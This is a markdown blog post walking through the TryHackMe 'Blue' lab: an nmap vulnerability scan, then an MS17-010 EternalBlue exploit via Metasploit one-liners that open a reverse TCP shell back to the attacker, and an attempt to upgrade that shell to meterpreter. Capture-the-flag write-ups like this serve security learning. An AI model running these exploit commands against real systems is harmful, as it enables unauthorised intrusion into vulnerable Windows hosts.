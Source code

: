 ```yaml
---
title: 'TryHackMe - Blue'
excerpt: 'Scanning a host for vulnerabilities with nmap. Running an exploit against the target using Metasploit to gain a reverse TCP shell and upgrading the shell. Meterpreter usage and session navigation.'
coverImage: '/assets/blog/thm-blue/thm-blue-cover.png'
date: '2023-06-29T05:51:07.322Z'
author:
  name: Zaphod Beeblebrox
  picture: '/assets/blog/authors/skull.jpeg'
ogImage:
  url: '/assets/blog/thm-blue/thm-blue-cover.png'
---
```


# THM Eternal Blue  

## Recon  

 ### // Set a terminal environmental variable for target IP address  

    export IP=<target-ip-address> 

 ### // Run nmap vulnerability scan 

    nmap -sV -vv --script=vuln $IP  

 ### // Example  

![](../public/assets/blog/thm-blue/thm-blue-nmap-command.png)  

 ### // Results  

![](../public/assets/blog/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](../public/assets/blog/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](../public/assets/blog/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 ![](../public/assets/blog/thm-blue/thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
     search upgrade shell   

 ![](../public/assets/blog/thm-blue/thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

     use shell_to_meterpreter  

> Alternative: "use 4" (4th result in searches)

 ![](../public/assets/blog/thm-blue/thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](../public/assets/blog/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  



 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  

 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  






